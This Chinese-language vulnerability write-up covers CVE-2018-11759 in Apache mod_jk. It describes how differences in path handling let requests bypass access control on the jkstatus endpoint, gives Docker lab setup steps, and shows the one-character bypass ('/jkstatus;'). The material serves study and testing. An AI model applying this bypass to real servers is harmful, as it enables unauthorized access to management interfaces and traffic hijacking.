 # Apache Mod_jk 访问控制权限绕过 CVE-2018-11759

## 漏洞描述

Apache Tomcat JK（mod_jk）Connector是美国阿帕奇（Apache）软件基金会的一款为Apache或IIS提供连接后台Tomcat的模块，用以为Apache或IIS服务器提供处理JSP/Servlet的能力。

由于httpd和Tomcat在路径处理规范上存在差异，因此可以绕过Apache mod_jk Connector 1.2.0版本到1.2.44版本上由JkMount httpd指令所定义端点的访问控制限制。
如果一个只有只读权限的jkstatus的接口可以访问的话，那么就有可能能够公开由mod_jk模块给AJP提供服务的内部路由。
如果一个具有读写权限的jkstatus接口可供访问，我们就能通过修改AJP的配置文件中相关配置来劫持或者截断所有经过mod_jk的流量，又或者进行内部的端口扫描。

## 漏洞影响

```
Apache Mod_jk Connector 1.2.0 ~ 1.2.44
```

## 环境搭建

```plain
git clone https://github.com/immunIT/CVE-2018-11759.git
docker-conpose up -d
```

访问 http://xxx.xxx.xxx.xxx:80 成功即可

![](images/202202090041136.png)

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/jkstatus 显示无权限访问

```plain
Forbidden
You don't have permission to access /jkstatus on this server.
```



![](images/202202090041216.png)

访问  http://xxx.xxx.xxx.xxx/jkstatus; 即可绕过

- 注意是在url后面加上了一个;

![](images/202202090042251.png)